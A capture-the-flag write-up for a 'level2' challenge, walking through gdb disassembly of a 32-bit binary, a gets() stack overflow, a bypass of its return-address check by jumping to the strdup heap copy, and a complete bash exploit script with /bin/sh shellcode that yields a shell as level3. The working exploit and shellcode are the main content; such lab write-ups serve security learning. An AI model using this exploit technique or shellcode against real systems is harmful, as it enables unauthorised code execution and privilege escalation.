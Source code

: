<span style="display: flex; justify-content: space-between;"><span style="text-align: left; display: block;">
	[← level1](../level1/solution.md)
</span>
<span style="text-align: center; display: block;">
	[Home](../README.md)
</span>
<span style="text-align: right; display: block;">
	[level3 →](../level3/solution.md)
</span>
</span>

level2
======

Dissassembly
------------

To dissassemble the executable we can use gdb.
```sh
FUNCTION=main EXECUTABLE=./level2
gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble/r $FUNCTION" "$EXECUTABLE"
```

The main function looks like this:
```nasm
Dump of assembler code for function main:
   0x0804853f <+0>:  push  ebp
   0x08048540 <+1>:  mov   ebp,esp
   0x08048542 <+3>:  and   esp,0xfffffff0
   0x08048545 <+6>:  call  0x80484d4 <p>
   0x0804854a <+11>: leave
   0x0804854b <+12>: ret
End of assembler dump.
```

It calls another function p:
```sh
FUNCTION=p EXECUTABLE=./level2
gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble/r $FUNCTION" "$EXECUTABLE"
```

```nasm
Dump of assembler code for function p:
   0x080484d4 <+0>:     55                   push  ebp
   0x080484d5 <+1>:     89 e5                mov   ebp,esp
   0x080484d7 <+3>:     83 ec 68             sub   esp,0x68
   0x080484da <+6>:     a1 60 98 04 08       mov   eax,ds:0x8049860
   0x080484df <+11>:    89 04 24             mov   DWORD PTR [esp],eax
   0x080484e2 <+14>:    e8 c9 fe ff ff       call  0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x080484ea <+22>:    89 04 24             mov   DWORD PTR [esp],eax
   0x080484ed <+25>:    e8 ce fe ff ff       call  0x80483c0 <gets@plt>
   0x080484f2 <+30>:    8b 45 04             mov   eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    89 45 f4             mov   DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    8b 45 f4             mov   eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    25 00 00 00 b0       and   eax,0xb0000000
   0x08048500 <+44>:    3d 00 00 00 b0       cmp   eax,0xb0000000
   0x08048505 <+49>:    75 20                jne   0x8048527 <p+83>
   0x08048507 <+51>:    b8 20 86 04 08       mov   eax,0x8048620
   0x0804850c <+56>:    8b 55 f4             mov   edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:    89 54 24 04          mov   DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048516 <+66>:    e8 85 fe ff ff       call  0x80483a0 <printf@plt>
   0x0804851b <+71>:    c7 04 24 01 00 00 00 mov   DWORD PTR [esp],0x1
   0x08048522 <+78>:    e8 a9 fe ff ff       call  0x80483d0 <_exit@plt>
   0x08048527 <+83>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x0804852a <+86>:    89 04 24             mov   DWORD PTR [esp],eax
   0x0804852d <+89>:    e8 be fe ff ff       call  0x80483f0 <puts@plt>
   0x08048532 <+94>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x08048535 <+97>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048538 <+100>:   e8 a3 fe ff ff       call  0x80483e0 <strdup@plt>
   0x0804853d <+105>:   c9 leave
   0x0804853e <+106>:   c3 ret
End of assembler dump.
```

The stack looks like this:
| Address | Type          | Size |
|---------|---------------|------|
| -0x4c   | char data[76] | 76   |
|  0x00   | *EBP          |  4   |
|  0x04   | *EIP          |  4   |

Exploitation
------------

This is another stack-buffer overflow. This means we can overwrite data preceding the buffer on the stack, notably the return pointer preceding the buffer on the stack.

We can override the value of EIP by using 80 bytes of padding, followed by the address we want to jump to.
We could try to jump onto the stack-buffer.

First we need to find out at which address the stack-buffer starts.
```sh
gdb ./level2 -batch -ex 'b * 0x080484f2' -ex 'r <<<ABCD' -ex 'p (char*)$ebp - 0x4c'
```
```
Breakpoint 1 at 0x80484f2

Breakpoint 1, 0x080484f2 in p ()
$1 = 0xbffff6ec "ABCD"
```

```sh
ADDRESS="bffff6ec"
BYTES=$(<<< "$ADDRESS" rev | dd conv=swab | xxd -r -p)
(printf '%.0sA' {1..80}; echo $BYTES) | ./level2
```
```
(0xbffff6ec)
```

Oh no, it looks like we where caught!
```nasm
...
   0x080484f2 <+30>:    8b 45 04             mov   eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    89 45 f4             mov   DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    8b 45 f4             mov   eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    25 00 00 00 b0       and   eax,0xb0000000
   0x08048500 <+44>:    3d 00 00 00 b0       cmp   eax,0xb0000000
   0x08048505 <+49>:    75 20                jne   0x8048527 <p+83>
   0x08048507 <+51>:    b8 20 86 04 08       mov   eax,0x8048620
   0x0804850c <+56>:    8b 55 f4             mov   edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:    89 54 24 04          mov   DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048516 <+66>:    e8 85 fe ff ff       call  0x80483a0 <printf@plt>
   0x0804851b <+71>:    c7 04 24 01 00 00 00 mov   DWORD PTR [esp],0x1
   0x08048522 <+78>:    e8 a9 fe ff ff       call  0x80483d0 <_exit@plt>
   0x08048527 <+83>:    8d 45 b4             lea   eax,[ebp-0x4c]
...
```

Upon closer inspection, we can see that the stored value of the EIP (EBP + 4) is checked and the program exits if it is above 0xb0000000.
So we cannot jump onto our stack-buffer.

But we can also see that our input is being duplicated into an unfreed heap-allocated buffer, before the function returns.
```nasm
...
   0x08048527 <+83>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x0804852a <+86>:    89 04 24             mov   DWORD PTR [esp],eax
   0x0804852d <+89>:    e8 be fe ff ff       call  0x80483f0 <puts@plt>
   0x08048532 <+94>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x08048535 <+97>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048538 <+100>:   e8 a3 fe ff ff       call  0x80483e0 <strdup@plt>
   0x0804853d <+105>:   c9 leave
   0x0804853e <+106>:   c3 ret
End of assembler dump.
```

If we find out it's address we can jump onto it instead of the stack-buffer, and bypass the stack-check.
```sh
gdb ./level2 -batch -ex 'b * 0x0804853e' -ex 'r <<<ABCD' -ex 'p (char*)$eax'
```
```
Breakpoint 1 at 0x804853e
ABCD

Breakpoint 1, 0x0804853e in p ()
$1 = 0x804a008 "ABCD
```

Perfect, now all that's left to do is to place some shellcode at the start of the buffer.

I'll use [Geyslan G. Bem's tiny shellcode](http://shell-storm.org/shellcode/files/shellcode-841.php):


```sh
> /tmp/level2.sh cat << 'EOF'
```
```bash
#!/usr/bin/env bash
RETURN_ADDRESS=0804a008
SIZE=80
SHELLCODE=$'\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

LC_ALL=C # Count bytes instead of graphemes
BYTES=$(<<< "$RETURN_ADDRESS" rev | dd conv=swab | xxd -r -p)

PADDING_SIZE=$((SIZE-${#SHELLCODE}))
PADDING=$(printf '%.0sA' $(seq -s' ' "$PADDING_SIZE"))

echo "$SHELLCODE$PADDING$BYTES"
```
```sh
EOF
chmod +x /tmp/level2.sh
```

```sh
(/tmp/level2.sh; cat) | ./level2
```
```
1É÷á°
     Qh//shh/binã̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
whoami
level3
```
